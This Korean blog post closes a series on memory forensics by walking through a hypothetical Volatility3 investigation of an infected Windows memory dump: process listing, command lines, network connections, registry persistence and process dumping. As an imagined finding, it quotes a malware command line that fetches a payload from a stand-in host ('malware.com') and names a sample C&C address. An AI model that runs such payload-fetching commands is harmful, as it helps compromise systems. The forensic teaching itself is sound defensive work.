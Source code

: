 ```yaml
---
layout: post
title:  "실전! 악성코드 감염 메모리 분석 (5/5)"
date:   2025-07-05 10:00:00 +0900
categories: forensics volatility
---
```


## 들어가며

대망의 마지막 5부입니다. 지난 4부까지 우리는 Volatility3의 주요 플러그인 사용법을 익혔습니다. 이제는 실전입니다. 이번 포스트에서는 가상의 악성코드 감염 시나리오를 통해, 지금까지 배운 모든 지식과 기술을 종합하여 실제 침해사고 분석처럼 메모리 덤프를 분석하는 전 과정을 함께 밟아보겠습니다.

## 시나리오

**상황:** 사용자로부터 "PC가 평소보다 매우 느려지고, 이상한 광고창이 계속 뜬다"는 신고가 접수되었습니다. 의심스러운 정황에 따라 즉시 해당 PC의 메모리를 덤프하여 `suspicious.mem` 파일을 확보했습니다.

**임무:** 메모리 덤프 분석을 통해 악성코드의 존재 여부를 확인하고, 감염 경로와 행위를 파악하라.

## 분석 절차 (Step-by-Step)

### Step 1: 기본 정보 확인

가장 먼저, 덤프 파일의 기본적인 시스템 정보를 확인하여 분석의 기준점을 잡습니다.

```bash
vol.py -f suspicious.mem windows.info.Info
```

- **확인 사항:** 운영체제 버전, 덤프 시간 등.
- **예상 결과:** Windows 10 x64, 덤프 시간은 신고 접수 시간과 유사. Volatility3가 적절한 심볼을 자동으로 찾아 적용했는지 확인합니다.

### Step 2: 의심스러운 프로세스 탐색

이제 어떤 프로세스들이 실행 중인지 확인하여 악성 행위의 주체를 찾아야 합니다. `pslist`, `pstree`, `psscan`을 종합적으로 사용합니다.

```bash
vol.py -f suspicious.mem windows.pslist.PsList
vol.py -f suspicious.mem windows.pstree.PsTree
vol.py -f suspicious.mem windows.psscan.PsScan
```

- **분석 포인트:**
    1.  **이상한 이름의 프로세스:** `cftmon.exe`를 위장한 `ctfmon.exe`나 `svch0st.exe` 같은 오타, 또는 `1a2b3c.exe` 처럼 의미 없는 이름의 프로세스를 찾습니다.
    2.  **비정상적인 부모-자식 관계:** `pstree`를 통해 `explorer.exe`나 `services.exe`가 아닌, `winword.exe`나 `powershell.exe` 같은 프로세스가 알 수 없는 자식 프로세스를 실행시킨 경우를 찾습니다.
    3.  **숨겨진 프로세스:** `pslist`에는 없지만 `psscan`에는 존재하는 프로세스를 찾습니다. 이것이 있다면 100% 악성코드입니다.

- **가상 발견:** `pstree` 분석 결과, `powershell.exe` (PID 3124)가 `evil.exe` (PID 4567)라는 의심스러운 이름의 프로세스를 실행시킨 것을 발견했다고 가정합시다.

### Step 3: 프로세스 상세 분석

`evil.exe` (PID 4567)를 집중적으로 파헤쳐 봅니다.

```bash
# evil.exe의 실행 인자 확인
vol.py -f suspicious.mem windows.cmdline.CmdLine --pid 4567

# evil.exe가 로드한 DLL 목록 확인
vol.py -f suspicious.mem windows.dlllist.DllList --pid 4567
```

- **분석 포인트:**
    - `cmdline` 결과, `evil.exe -c http://malware.com/payload.dat` 와 같이 특정 서버 주소가 인자로 사용되었는지 확인합니다.
    - `dlllist` 결과, `ws2_32.dll`, `wininet.dll` 등 네트워크 관련 DLL이 로드되었다면 외부 통신을 시도했을 가능성이 높습니다.

### Step 4: 네트워크 연결 확인

`evil.exe`가 실제로 외부와 통신했는지 `netscan`으로 확인합니다.

```bash
vol.py -f suspicious.mem windows.netscan.NetScan
```

- **분석 포인트:**
    - `netscan` 결과에서 `Owner`가 `evil.exe`이거나 `PID`가 4567인 연결을 찾습니다.
    - **가상 발견:** `evil.exe`가 `123.123.123.123:8080` 이라는 의심스러운 IP 주소와 `ESTABLISHED` 상태로 연결된 것을 발견했습니다. 이 IP는 알려진 악성 C&C 서버일 수 있습니다.

### Step 5: 지속성(Persistence) 확인

악성코드가 시스템 재부팅 후에도 살아남기 위해 사용한 방법을 추적합니다. 주로 레지스트리 `Run` 키를 확인합니다.

```bash
# 1. 레지스트리 하이브 목록과 주소 확인
vol.py -f suspicious.mem windows.registry.hivelist.HiveList

# 2. SOFTWARE 하이브의 주소를 확인(예: 0xfffff12345678900)하고 Run 키 값 출력
vol.py -f suspicious.mem --offset 0xfffff12345678900 windows.registry.printkey.PrintKey --key "Microsoft\Windows\CurrentVersion\Run"
```

- **분석 포인트:**
    - `Run` 키에 `C:\Users\victim\AppData\Local\Temp\evil.exe` 와 같이 의심스러운 경로의 파일이 등록되어 있는지 확인합니다.

### Step 6: 악성 파일 추출 (덤프)

분석의 마지막 단계로, 의심스러운 프로세스(`evil.exe`)를 메모리에서 직접 추출하여 정적 분석(예: VirusTotal, IDA Pro)에 활용할 수 있습니다.

```bash
# 먼저 evil.exe의 메모리 맵을 확인
vol.py -f suspicious.mem windows.memmap.Memmap --pid 4567

# 프로세스를 덤프
vol.py -f suspicious.mem windows.dumpfiles.DumpFiles --pid 4567
```

- **결과:** 현재 디렉터리에 `pid.4567.dmp` 와 같은 파일이 생성됩니다. 이 파일의 해시 값을 계산하여 VirusTotal에 조회하거나, 악성코드 분석가에게 전달하여 심층 분석을 의뢰할 수 있습니다.

## 결론 및 시리즈를 마치며

위와 같은 절차를 통해 우리는 메모리 덤프만으로 `evil.exe`라는 악성 프로세스를 식별하고, C&C 서버 통신 사실과 레지스트리를 통한 지속성 유지 방법까지 파악할 수 있었습니다.

지난 5주간의 시리즈를 통해 메모리 포렌식의 기본 개념부터 Volatility3를 활용한 실전 분석까지 함께 달려왔습니다. 메모리 포렌식은 보이지 않는 위협을 찾아내는 매력적이고 강력한 기술입니다. 이 시리즈가 여러분의 기술적 성장에 작은 디딤돌이 되었기를 바랍니다. 꾸준한 연습과 학습을 통해 최고의 디지털 포렌식 전문가로 거듭나시길 응원합니다. 감사합니다!
